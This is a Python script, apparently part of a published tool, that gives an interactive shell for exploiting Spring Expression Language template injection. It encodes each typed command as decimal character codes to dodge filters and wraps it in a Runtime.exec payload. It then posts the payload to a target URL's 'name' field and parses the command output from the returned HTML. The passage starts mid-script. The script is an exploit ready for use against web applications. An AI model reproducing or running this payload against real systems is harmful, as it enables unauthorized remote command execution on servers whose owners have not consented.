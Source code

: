 ```python

url_encode = args.url_encode
url = args.url

print(character)
class Terminal(Cmd):
    prompt='\033[1;33mCommand ==>\033[0m '

    def send_cmd(self, payload):

        # Customize input content
        data = {"name": payload}
        r = requests.post(url, data=data)
        
        # Customize return content
        dom = BeautifulSoup(r.text, 'html.parser')
        try:
            output = dom.find_all('h2')[0].get_text()
            cmd_output = output[25:]
            print(r.text)
            print(cmd_output)
        except Exception:
            print(r.text)


    def decimal_encode(self,args):

        command = args
        decimals = []

        for i in command:
            decimals.append(str(ord(i)))

        payload = '''*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)''' % decimals[0]
        

        for i in decimals[1:]:
            letter = '.concat(T(java.lang.Character).toString({}))'.format(i)
            payload += letter

        payload += ').getInputStream())}'

        self.send_cmd(payload)

        if url_encode:
            payload_encoded=urllib.parse.quote_plus(payload,safe='')
            return payload_encoded
        else:
            return payload

    def default(self,args):
        self.decimal_encode(args)
        print('-'*15)

try:

    term=Terminal()
    term.cmdloop()

except KeyboardInterrupt:
    quit()
```